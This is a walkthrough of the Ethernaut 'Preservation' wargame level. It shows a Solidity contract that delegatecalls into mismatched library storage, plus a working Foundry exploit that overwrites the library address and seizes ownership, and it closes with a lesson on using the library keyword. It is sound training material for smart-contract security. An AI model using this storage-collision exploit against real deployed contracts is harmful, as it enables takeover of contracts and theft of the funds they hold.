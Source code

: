 # Level 16 - Preservation ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/16" %}

### Level Setup

{% hint style="info" %}
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Preservation.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-16

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-16

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/597859bfacb216c601efbdc60b0546fad51b37cb/src/Level16.sol" %}

{% code title="src/Level16.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                     LEVEL 16 - PRESERVATION                  │
// ================================================================
contract AttackContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 /* _time */ ) public {
        owner = msg.sender;
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/597859bfacb216c601efbdc60b0546fad51b37cb/script/Level16.s.sol" %}

{% code title="script/Level16.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "../src/Level16.sol";

// ================================================================
// │                     LEVEL 16 - PRESERVATION                  │
// ================================================================
interface IPreservation {
    function setFirstTime(uint256 _timeStamp) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IPreservation preservation = IPreservation(targetContractAddress);

        vm.startBroadcast();
        AttackContract attackContract = new AttackContract();

        // Set the timeZone1Library to the address of the AttackContract
        preservation.setFirstTime(uint256(uint160(address(attackContract))));

        // Call the setFirstTime function again but this time it will delegate to the attackContract
        // which will set the owner to the msg.sender
        preservation.setFirstTime(1);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
{% endhint %}
